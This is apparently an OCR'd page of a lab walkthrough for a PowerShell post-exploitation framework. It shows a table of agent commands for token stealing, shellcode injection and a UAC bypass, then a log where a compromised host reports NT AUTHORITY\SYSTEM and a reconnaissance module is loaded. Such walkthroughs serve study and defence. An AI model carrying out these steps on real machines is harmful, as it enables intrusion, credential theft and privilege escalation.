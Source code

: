|                | powershell/management/psinject.     |                                 |
| revtoself      | Tasks the agent to run module       | revtoself                       |
|                | powershell/credentials/tokens.      |                                 |
|                | Default parameters include:         |                                 |
|                | RevToSelf: True                     |                                 |
| shinject       | Tasks the agent to run module       | shinject <Listener> <ProcId>    |
|                | powershell/management/shinject.     |                                 |
| spawn          | Tasks the agent to run module       | spawn <Listener>                |
|                | powershell/management/spawn.        |                                 |
| steal_token    | Tasks the agent to run module       | steal_token <ProcessID>         |
|                | powershell/credentials/tokens.      |                                 |
|                | Default parameters include:         |                                 |
|                | ImpersonateUser: True               |                                 |
| bypassuac      | Tasks the agent to run module power | bypassuac <Listener>            |
|                | shell/privesc/bypassuac_eventvwr.   |                                 |

_Executing the `whoami` command to verify the current user context._

`shell "whoami"`:
```
[*] Tasked 9UHYCNAD to run Task 1
```

_Confirming that the command executed successfully and the current user is `NT AUTHORITY\SYSTEM`._

`history`:
```
[*] Task 1 results received
NT AUTHORITY\SYSTEM
```

_Loading the `computerdetails` module to gather detailed information about the target system._

`usemodule powershell/situational_awareness/host/computerdetails`

`info`:
```
Author       @JosephBialek                                                        
 Background   True                                                                 
 Comments     https://github.com/mattifestation/PowerSploit/blob/master/Recon/Get- 
              ComputerDetails.ps1                                                  
 Description  Enumerates useful information on the system. By default, all checks  
              are run. ←                                                           
 Language     powershell                                                           
 Name         powershell/situational_awareness/host/computerdetails                
 NeedsAdmin   True                                                                 
 OpsecSafe    True                                                                 
 Techniques   http://attack.mitre.org/techniques/T1082             
```
